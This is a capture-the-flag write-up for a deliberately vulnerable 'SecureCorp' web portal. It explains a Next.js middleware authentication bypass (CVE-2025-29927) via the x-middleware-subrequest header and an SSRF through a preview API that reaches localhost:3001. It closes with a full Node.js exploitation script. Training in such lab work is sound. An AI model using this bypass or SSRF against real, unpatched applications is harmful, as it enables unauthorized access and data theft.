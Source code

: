 **Description**

SecureCorp has recently deployed an internal web portal designed to streamline employee workflows, handling everything from sensitive administrative operations to confidential content previews. However, preliminary security assessments indicate potential vulnerabilities in the portal's access control mechanisms and input validation systems. A skilled attacker could potentially chain multiple implementation flaws to achieve unauthorized access and data exfiltration.

**Objectives**

- Conduct thorough reconnaissance of the portal's attack surface
- Identify and exploit authentication bypass vulnerabilities  
- Leverage server-side request forgery (SSRF) flaws for internal network access
- Chain exploits to retrieve both components of the segmented flag

> **Note:** This challenge implements a **two-stage exploitation** scenario where the flag is deliberately split into **2 distinct parts**, each requiring different attack vectors to recover.

---

**Flag Format**

```
CITEFLAG{...}
```

---

**🔗 Challenge Access**  → [🌐 http://134.209.31.135:8917](http://134.209.31.135:8917/)

---

**👤 Author**: *xtle0o0*

---

## Vulnerability Analysis

### Stage 1: Next.js Middleware Authentication Bypass (CVE-2025-29927)

The application utilizes Next.js middleware for access control, which contains a critical vulnerability allowing authentication bypass through header manipulation.

A simple recon on the app could lead you to the tech stack used and nextjs version

**Vulnerability Details:**
- **CVE**: CVE-2025-29927
- **Impact**: Complete authentication bypass for protected routes
- **Root Cause**: Improper handling of internal middleware headers

**Exploitation Vector:**
```javascript
const adminResponse = await axios.get(`${HOST}/api/admin`, {
  headers: { 'x-middleware-subrequest': '1' }
});
```

The `x-middleware-subrequest` header tricks the middleware into treating the request as an internal subrequest, bypassing authentication checks and granting access to the `/api/admin` endpoint.

### Stage 2: Server-Side Request Forgery (SSRF) via Preview API

The application's preview functionality accepts arbitrary URLs without proper validation, enabling SSRF attacks against internal services.

**Vulnerability Details:**
- **Location**: `/api/preview` endpoint
- **Impact**: Internal network reconnaissance and data exfiltration
- **Root Cause**: Insufficient URL validation and lack of allowlist controls

**Exploitation Vector:**
```javascript
const ssrfResponse = await axios.post(`${HOST}/api/preview`, {
  url: 'http://localhost:3001/flag'
});
```

This payload forces the server to make a request to an internal service (`localhost:3001`) that contains the second part of the flag.

---

## Challenge Hints (Released After Initial Solving Period)

After observing no successful submissions, the following hints were provided:

1. **Stage 1 Hint**: "CVE-2025-29927" - Points to the Next.js middleware vulnerability
2. **Stage 2 Hint**: "SSRF via preview API" - Indicates the second vulnerability type and location

---

## Complete Exploitation Script

```javascript
#!/usr/bin/env node
const axios = require('axios');

const HOST = process.argv[2] || 'http://134.209.31.135:8917';
console.log(`Target host: ${HOST}`);

async function solve() {
  try {
    // Stage 1: Exploit Next.js middleware bypass
    const adminResponse = await axios.get(`${HOST}/api/admin`, {
      headers: { 'x-middleware-subrequest': '1' }
    });

    let adminContent = adminResponse.data;
    let adminHtmlString = typeof adminContent === 'string' ? adminContent : JSON.stringify(adminContent);

    // Extract first flag part
    let firstpart = 'Flag part 1 not found';
    if (typeof adminContent === 'object') {
      if (adminContent.flagPart) {
        firstpart = adminContent.flagPart;
      } else if (adminContent.flag) {
        firstpart = adminContent.flag;
      }
    }
    if (firstpart === 'Flag part 1 not found') {
      const match = adminHtmlString.match(/CITEFLAG\{[^\}]+\}|"flagPart"\s*:\s*"([^"]+)"/);
      if (match) {
        firstpart = match[1] || match[0];
      }
    }

    // Stage 2: Exploit SSRF vulnerability
    const ssrfResponse = await axios.post(`${HOST}/api/preview`, {
      url: 'http://localhost:3001/flag'
    });

    const previewData = ssrfResponse.data;
    let secondpart = 'Flag part 2 not found';
    if (previewData.flag) {
      secondpart = previewData.flag;
    } else if (previewData.preview) {
      const m = previewData.preview.match(/"flag"\s*:\s*"([^"]+)"/);
      if (m) secondpart = m[1];
    }

    // Combine flag parts
    let completeFlag;
    if (firstpart.endsWith('}')) {
      completeFlag = firstpart;
    } else {
      completeFlag = `${firstpart}${secondpart}`;
    }
    console.log(completeFlag);

  } catch (error) {
    if (error.response) {
      console.error(`Status: ${error.response.status}`);
      console.error('Headers:', error.response.headers);
      console.error('Data:', error.response.data);
    } else {
      console.error(error.message);
    }
  }
}

solve();
```
